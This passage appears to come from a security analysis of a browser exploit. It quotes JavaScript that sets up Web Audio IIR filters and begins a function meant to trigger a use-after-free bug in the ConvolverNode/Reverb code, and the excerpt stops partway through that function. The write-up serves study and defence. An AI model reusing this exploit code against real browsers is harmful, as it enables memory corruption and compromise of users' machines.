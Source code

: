 
let gcPreventer = [];
let iirFilters = [];
 
function initialSetup() {
	let audioCtx = new OfflineAudioContext(1, 20, 3000);
 
	let feedForward = new Float64Array(2);
	let feedback = new Float64Array(1);
 
	feedback[0] = 1;
	feedForward[0] = 0;
	feedForward[1] = -1;
 
	for (let i = 0; i < 256; i++)
        iirFilters.push(audioCtx.createIIRFilter(feedForward, feedback));
}




12345678910111213141516

let gcPreventer = [];let iirFilters = []; function initialSetup() { let audioCtx = new OfflineAudioContext(1, 20, 3000);  let feedForward = new Float64Array(2); let feedback = new Float64Array(1);  feedback[0] = 1; feedForward[0] = 0; feedForward[1] = -1;  for (let i = 0; i < 256; i++)        iirFilters.push(audioCtx.createIIRFilter(feedForward, feedback));}




After that, the exploit begins the initial stage of exploitation and tries to trigger a UAF bug. For that to work the exploit creates the objects that are needed for the Reverb component. It creates another huge OfflineAudioContext object and two ConvolverNode objects – ScriptProcessorNode to start audio processing and AudioBuffer for the audio channel.





async function triggerUaF(doneCb) {
	let audioCtx = new OfflineAudioContext(2, 0x400000, 48000);
	let bufferSource = audioCtx.createBufferSource();
	let convolver = audioCtx.createConvolver();
	let scriptNode = audioCtx.createScriptProcessor(0x4000, 1, 1);
	let channelBuffer = audioCtx.createBuffer(1, 1, 48000);
 
	convolver.buffer = channelBuffer;
	bufferSource.buffer = channelBuffer;
 
	bufferSource.loop = true;
	bufferSource.loopStart = 0;
	bufferSource.loopEnd = 1;
 
	channelBuffer.getChannelData(0).fill(0);
 
	bufferSource.connect(convolver);
	convolver.connect(scriptNode);
	scriptNode.connect(audioCtx.destination);
 
	bufferSource.start();
 